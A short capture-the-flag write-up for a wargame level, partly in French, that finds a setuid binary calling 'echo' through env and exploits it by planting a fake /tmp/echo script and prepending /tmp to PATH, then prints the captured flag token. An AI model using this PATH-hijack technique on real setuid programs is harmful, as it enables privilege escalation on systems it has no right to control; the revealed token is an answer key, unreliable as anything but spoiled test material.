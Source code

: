 # level03

```bash
ls -la

# -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

### What could be this `s` in the perms??

[Google: "linux s permission on file"](https://unix.stackexchange.com/questions/118853/what-does-the-s-attribute-in-file-permissions-mean)

> That is the "setuid" bit, which tells the OS to execute that program with the userid of its owner. This is typically used with files owned by root to allow normal users to execute them as root with no external tools (such as sudo).
You can set the suid bit using chmod, eg chmod 4755 which will give a file give the normal permissions 755 does (rwxr-xr-x) and add the suid bit to give rwsr-xr-x
You can clear the setuid bit by issuing a normal chmod command with a 0 prepended to it. For example, to set permissions back to rwxr-xr-x you would use chmod 0755.

### C'est un binaire avec des droits flag03, mais que fait-il ?

```bash
objdump -D -M intel --section=.text level03
ltrace ./level03
# system("/usr/bin/env echo Exploit me")
```

Write a file `/tmp/echo`
```bash
#!/usr/bin/env bash

whoami # flag03 (because of the 's' permission)
getflag # Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

Then simply run `PATH=/tmp:${PATH} ~/level03` to get the output
